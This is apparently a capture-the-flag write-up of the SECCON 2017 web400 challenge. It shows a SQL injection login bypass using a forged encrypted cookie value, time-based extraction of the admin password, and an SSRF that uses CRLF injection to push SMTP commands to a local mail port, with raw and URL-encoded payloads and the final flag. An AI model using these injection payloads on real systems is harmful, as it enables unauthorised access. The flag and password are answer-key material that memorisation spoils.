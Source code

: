 Hello guys , so as always i will share me and my team solution for web400 

First , i would like to thanks all orgz for this ctf , really enjoyed and make me work hard to solve this and others web and crypto challenge

So this task was in first stage simple login form and source code of index.cgi page 

![login](https://user-images.githubusercontent.com/7364615/33808035-018600f8-dde0-11e7-8041-59ca86648b99.PNG)

And this is source code , the best part the sql query 

![source_code](https://user-images.githubusercontent.com/7364615/33808043-294d5866-dde0-11e7-9ff2-eed10fea701e.png)

So what here we can do is inject our payload using username , we can't use password first because its not in the query 
and second it was encrypted with unknown cipher

Lets break this login by just using 'union select'

payload :  "union select 'admin'--"

but wait ? our password is encrypted before the check 

```
$row[0] eq &encrypt($q->param('pass'))
```

So how we can make this true and login ? , lets audit more the code and look for our hope :D 
```
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```

So if we check the Remember Me option we will get our username used to login encrypted into remember cookie 

Okay , lets try with username : admin and password :anything 

![image](https://user-images.githubusercontent.com/7364615/33808116-3b700182-dde1-11e7-960d-a8f5c7d80c97.png)

This is username (admin) encrypted , lets use it in the payload to make the check True 

```
username : 'union select '58474452dda5c2bdc1f6869ace2ae9e3
password : admin
```

Oh we are in now :D 

![image](https://user-images.githubusercontent.com/7364615/33808129-6f7c57c8-dde1-11e7-953f-ee43da1e672b.png)

But "* No.2 is only for "admin" user." :(

Need to login with admin , so we need to get the real password from database 'SQLite' 

Using this https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet to help me make thinks easier

So lets try "Time-based data extraction"

So what i did first is figure out the time for True and False query 

Here when query True : Time = 1.37

![delay1](https://user-images.githubusercontent.com/7364615/33808192-77963e78-dde2-11e7-8daa-21cb07378e11.PNG)

And when query False Time = 500 ms

![delay2](https://user-images.githubusercontent.com/7364615/33808193-7a36cbfc-dde2-11e7-82bd-76e5c42371ca.PNG)

Then start code to make it fast and easy 

This is my script : [Script](SECCON_2017/web400.py)

Just decrease the time in the script due to some problem , so its depend 

Then after the script end it print for us the password 
```
password : Yes!Kusomon!!
```

Login as Admin like a BOSS :D 

Next stage , as the name of Task it will be "SSRF"

Like we see here 

![image](https://user-images.githubusercontent.com/7364615/33808245-634ca9a6-dde3-11e7-8ac4-ae2be598554a.png)

port 25 is open only in local 

With the help of orange bugs again :D 

https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html

Make me exploit it fast and without wasting time , using CRLF will break this and finish this stage 

So my last payload was 

```
127.0.0.1
HELO admin
MAIL FROM:<myemail@gmail.com>
RCPT TO:<root@ymzk01.pwn>
DATA
From:myemail@gmail.com
To:root@ymzk01.pwn
Subject:give me flag
give me flag
.
QUIT
:25/
```

Then encode it to bypass some problem

```
127.0.0.1%0D%0AHELO%20admin%0D%0AMAIL%20FROM%3A%3Cmyemail%40gmail.com%3E%0D%0ARCPT%20TO%3A%3Croot%40ymzk01.pwn%3E%0D%0ADATA%0D%0AFrom%3Amyemail%40gmail.com%0D%0ATo%3Aroot%40ymzk01.pwn%0D%0ASubject%3Agive%20me%20flag%0D%0Agive%20me%20flag%0D%0A.%0D%0AQUIT%0D%0A%:25/
```

And again break this stage and Get our email 


![image](https://user-images.githubusercontent.com/7364615/33808286-f960ec40-dde3-11e7-8f41-dbdda389ed18.png)

Use the cookie to decrypt our flag :D 

![image](https://user-images.githubusercontent.com/7364615/33808293-1567d23c-dde4-11e7-8ce3-ed401edcf0d9.png)

```
SECCON{SSRFisMyFriend!}
```

